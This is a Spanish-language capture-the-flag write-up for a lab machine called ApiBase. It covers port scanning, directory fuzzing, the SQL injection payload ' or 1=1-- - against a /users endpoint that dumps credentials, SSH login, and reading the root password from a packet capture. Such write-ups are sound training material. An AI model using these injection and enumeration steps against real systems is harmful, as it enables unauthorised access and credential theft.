

# 🧠 **Informe de Pentesting – Máquina: ApiBase**

### 💡 **Dificultad:** Fácil


---

## 📝 **Descripción de la máquina**

*ApiBase es una máquina de nivel principiante diseñada para explorar vulnerabilidades comunes en aplicaciones web que exponen una API sin protección adecuada. La máquina simula un entorno real donde el atacante debe interactuar con endpoints HTTP, descubrir rutas ocultas, y explotar una vulnerabilidad de inyección SQL para obtener credenciales. Posteriormente, el atacante analiza tráfico de red para escalar privilegios y obtener acceso como root. Esta máquina es ideal para reforzar habilidades en enumeración de APIs, análisis de tráfico, uso de Burp Suite, y explotación de SQLi.*

---

## 🎯 **Objetivo**

*Obtener acceso inicial a la máquina a través de la API expuesta, escalar privilegios hasta obtener acceso como root, y documentar detalladamente cada paso del proceso.*

---

## ⚙️ **Despliegue de la máquina**

Se descarga el archivo comprimido de la máquina y se lanza el contenedor Docker utilizando el script proporcionado:

```bash
unzip apibase.zip
sudo bash auto_deploy.sh apibase.tar
```


---

## 📡 **Comprobación de conectividad**

Se verifica que la máquina objetivo está activa y responde a peticiones ICMP:

```bash
ping -c1 172.17.0.3
```


---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo de todos los puertos para detectar cuáles están abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos descubiertos:**

* `22/tcp`: SSH
* `5000/tcp`: HTTP


A continuación, analizamos los servicios y versiones presentes en los puertos detectados:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```


---

## 🌐 **Exploración de la Aplicación Web**

Accedemos a la dirección [http://172.17.0.3:5000](http://172.17.0.3:5000) donde se muestra una API que permite añadir usuarios, aunque al probar la funcionalidad directamente desde el navegador no obtenemos respuesta funcional.


Descubrimos el endpoint `/users`, el cual se menciona en la misma interfaz.


---

## 📁 **Fuzzing de Directorios**

Utilizamos `gobuster` para descubrir rutas ocultas en el servidor:

```bash
gobuster dir -u http://172.17.0.3:5000 \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```


Encontramos las rutas `/add` y `/console`, entre otras.

* **Ruta `/add`**: Intenta aceptar datos vía POST, pero no permite método GET.

  

  El error **"405 Method Not Allowed"** indica que la ruta no acepta el método HTTP utilizado.

* **Ruta `/console`**: Ruta expuesta, posiblemente para depuración.

  

---

## 📨 **Prueba de envío de datos por POST**

La ruta `/add` permite agregar usuarios mediante una petición `POST`. Ejecutamos el siguiente comando:

```bash
curl -X POST "http://172.17.0.3:5000/add" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "username=Alejandro&email=AlejandroSL@gmail.com&password=277353277353"
```

Recibimos confirmación de éxito:

```json
{
  "message": "User added"
}
```


---

## 🔍 **Consulta de usuarios añadidos**

Consultamos el usuario que acabamos de añadir usando:

```bash
curl -X GET "http://172.17.0.3:5000/users?username=Alejandro"
```


---

## 🛠️ **Análisis con Burp Suite**

Abrimos Burp Suite:

```bash
burpsuite &> /dev/null & disown
```

Interceptamos la petición hacia `/users?username=Alejandro`, la enviamos al **Repeater**, y analizamos su respuesta.


---

## 💥 **Detección de Inyección SQL**

Modificamos el parámetro `username` introduciendo un `'`, lo que genera un error interno del servidor:

```http
HTTP/1.0 500 INTERNAL SERVER ERROR
```


Esto indica una **vulnerabilidad a inyecciones SQL**.

Probamos la siguiente inyección:

```bash
/users?username=' or 1=1-- -
```

Esto nos devuelve la lista de usuarios y contraseñas de la base de datos.

* Usuario: `pingu`
* Contraseña: `pinguinasio`


---

## 🔐 **Acceso por SSH**

Nos conectamos mediante SSH con las credenciales extraídas:

```bash
ssh pingu@172.17.0.3
# Contraseña: pinguinasio
```


---

## 📁 **Revisión del sistema**

Buscando posibles vectores de escalada, encontramos un archivo sospechoso:

* `network.pcap`

El archivo contiene tráfico de red y está expuesto en el puerto `1024`. Lo descargamos con:

```bash
wget http://172.17.0.3:1024/network.pcap
```

O lo visualizamos directamente desde el navegador:


---

## 🔍 **Análisis del tráfico con Wireshark**

Abrimos el archivo `.pcap` con Wireshark:

```bash
wireshark network.pcap
```


Revisando el contenido, encontramos la **contraseña del usuario root**:
**Contraseña: `balulero`**



---

## 🧑‍💻 **Acceso como root**

Nos conectamos al sistema como `root` utilizando las credenciales extraídas:

```bash
su root
# Contraseña: balulero
```

¡Acceso completo!


---

## ✅ **Resumen del Proceso**

1. 🚀 **Despliegue y detección de servicios** (SSH y HTTP).
2. 🕵️ **Enumeración de rutas y endpoints expuestos**.
3. 📬 **Envío de datos mediante POST a la API**.
4. 🔍 **Análisis con BurpSuite e identificación de vulnerabilidad SQLi**.
5. 🛡️ **Obtención de credenciales válidas**.
6. 🔑 **Acceso vía SSH como usuario regular**.
7. 🧠 **Análisis de tráfico para extracción de credenciales root**.
8. 🧑‍💻 **Acceso como root con control total del sistema**.

---
